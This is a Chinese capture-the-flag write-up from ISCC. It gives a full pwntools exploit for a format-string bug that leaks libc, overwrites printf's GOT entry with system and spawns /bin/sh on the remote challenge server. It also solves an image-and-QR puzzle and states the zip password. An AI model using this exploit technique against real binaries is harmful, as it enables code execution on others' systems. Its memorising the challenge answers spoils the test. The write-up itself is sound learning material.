 # ISCC

## PWN

第一题，是一个格式化字符串。

本来很简单，但是我自己过度依赖于one_gadget，所以失败。

先泄露printf的got地址，要使用

```python
%n$s+p64(printf_got)
```

正确的做法是，修改printf的got地址为system的地址，然后输入/bin/sh，这样就会执行

```sh
system("/bin/sh")
```

然后就OK了。

exp:

```python
#!/usr/bin/env python3 
from pwn import * 
#p = process('./sp1')
context.log_level='debug'
elf = ELF('./sp1')
env={"LD_PRELOAD":"./libc-2.27.so"} 
libc=ELF('./libc-2.27.so')
p = remote('123.57.69.203',7010) 


printf_got = elf.got['printf']
printf_plt=elf.plt['printf']
printf_offset=libc.sym['printf']

print("printf_offset:"+hex(printf_offset))
print("printf_plt:"+hex(printf_plt))
print("printf_got:"+hex(printf_got))

p.recvuntil('Can you find the magic word?\n')
payload=b'aaaaaaaa'
p.sendline(payload)
p.recv()
p.recv()
payload=b'%7$s' + p32(printf_got)
p.sendline(payload)#must sendline
printf_addr = u32(p.recv()[:4])
p.recv()
print("printf_addr:"+hex(printf_addr))

libc_base=printf_addr-printf_offset
print("libc_base:"+hex(libc_base))
one_gadget=libc_base+0x3d0d3
print("one_gadget:"+hex(one_gadget))


system=libc_base+libc.sym['system']
print("system:"+hex(system))
payload=fmtstr_payload(6,{printf_got:system})
print(len(payload))
p.sendline(payload)
p.recv()
p.recv()
p.sendline('/bin/sh')
p.interactive()
```



MISC

第一题，很简单。

打开图片，显然是高度被修改了。

接着修改高度，得到二维码。

扫描二维码，得到一串：

```url
\u5728\u8fd9\u6b21\u51ac\u5965\u4f1a\u7684\u821e\u53f0\u4e0a\uff0c\u6211\u56fd\u5c0f\u5c06\u82cf\u7fca\u9e23\u65a9\u83b7\u4e00\u91d1\u4e00\u94f6\uff0c\u90a3\u4f60\u77e5\u9053\u6b64\u6b21\u51ac\u5965\u4f1a\u6211\u56fd\u603b\u5171\u83b7\u5f97\u51e0\u679a\u5956\u724c\u5417\uff1f\u53c8\u5206\u522b\u662f\u51e0\u91d1\u51e0\u94f6\u51e0\u94dc\u5462\uff1f
```

http://www.msxindl.com/tools/unicode16.asp，Unicode与中文互转 16进制Unicode编码转换、还原

得到提示：

```
在这次冬奥会的舞台上，我国小将苏翊鸣斩获一金一银，那你知道此次冬奥会我国总共获得几枚奖牌吗？又分别是几金几银几铜呢？
```

搜一下：

![image-20220507223355987](20220509.assets/image-20220507223355987.png)

然后加密压缩包输入15942，得到flag。


